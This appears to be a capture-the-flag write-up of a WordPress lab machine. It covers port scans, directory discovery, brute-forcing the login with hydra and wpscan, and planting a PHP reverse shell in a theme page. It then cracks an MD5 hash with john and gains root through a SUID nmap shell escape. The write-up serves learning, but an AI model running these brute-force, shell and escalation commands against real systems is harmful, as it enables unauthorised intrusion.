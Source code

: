 # Step 1: Enumeration
## Scan
```
nmap -sS -A -T4 -e tun0 -oN nmap.log -vv 10.10.124.89
```
```
masscan -e tun0 --rate 1000 -p0-65535 -oL masscan.log 10.10.124.89
```
### Results
#### Nmap
```
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```
#### Masscan
```
open tcp 443 10.10.124.89 1601501516
open tcp 80 10.10.124.89 1601501525
```

So we know there's a webserver, doesn't appear to be anything else.
Time to spider the webpage and use gobuster to find any hidden directories.

## Finding directories

Note: We should use gobuster on both ports (443, 80)

### ZAP
First things first, I will use OWASP Zap to spider the website on port 80.
After spidering the site, I checked to see if there was anything interesting.
There were no suspicious paths, so I checked the contents of the responses for
the paths.

In robots.txt I found
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`key-1-of-3.txt` seemed awfully suspicious, so I navigated to `/key-1-of-3.txt` in my
browser and found the first key.

Navigating to the other path, `fsociety.dic`, brings you to a blog. I started the spider
again on this newfound resource.

Checking the site alerts, I gain some useful info: 
- X-Powered-By: PHP/5.5.29
- Set-Cookie: wordpress_test_cookie

Checking for hidden fields on the login page, I found:
```
<input type="" name="redirect_to" value="https://10.10.124.89/wp-admin/">
<input type="" name="testcookie" value="1">
```

### GoBuster
#### Interesting directories
```
/admin
/phpmyadmin
/rdf
/readme
/robots
/rss2
/wp-admin
/wp-config
/wp-cron
/wp-links-opml
/wp-load
/wp-login
```

- /admin has some weird behaviour
- /phpmyadmin looks like it can be exploited by spoofing hostname
- /readme returns a message about liking where your head is at
- /wp-config

Also found the wordpress version http://wordpress.org/?v=4.3.1

# Had to reference video

I got stuck, already went through all the indexed pages, tried brute forcing,
didn't know what to do. Turns out I was being silly and didn't notice that
fsocity.dic was NOT fsociety.dic, had I noticed that or simply copied the value
instead of typing it by hand I may have been able to get by without referencing
the video.

Anyways, so after getting my hands on fsocity.dic, I used hydra to find the USR
and PWD pair.

# Step 2: Exploitation

### Hydra
```
hydra -L fsocity.dic -p test 10.10.167.13 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
```
hydra -L Elliot -p fsocity.dic 10.10.167.13 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid password" -t 30
```

### Wpscan
```
wpscan --url 10.10.167.13 -P fsocity.dic -U elliot
```
This ran a lot faster than hydra, like 10,000 times as fast

#### Result
```
[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
```

## Getting a shell
Now that we have access to file management systems, we can upload a
reverse shell to the server. I will be using the reverse shell from a
previous room, Vulnuversity.

After replacing the contents of the theme's 404 page with php-reverse-shell.php,
I started ncat and then navigated to a 404 page in the browser. Once I had shell
access, I navigated to /home/robot and tried to open the flag file, but permission
was denied. I opened the other file which contained a username and md5 hashed password:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Using john-the-ripper on the hash with fsocity.dic as the wordlist failed, but using
rockyou.txt found the password:
```
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/passwords/rockyou.txt --fork=2 hash.txt
```
#### Result
```
abcdefghijklmnopqrstuvwxyz (?)
```

# Step 3: Escalation
## Upgrading shell

I needed to reference the video again as I wasn't sure how to get a tty shell, turns
out I've already done it before but forgot:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then I logged in as robot and cat'd out the second flag.

## Escalation

So I kind of knew what to do here, I needed to look for binaries with root permissions:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

I saw nmap in the list of binaries and thought it was peculiar, but had no clue how to
exploit it. After wracking my head I referenced the video again, and I was happy
to find I was on the right course. I was introduced to a website called https://gtfobins.github.io
of which had an entry on nmap.

```
nmap --interactive
nmap> !sh
```

Suprisingly, nmap could be used to execute shell commands as root. I used this to peek into the
/root folder and found the third key.
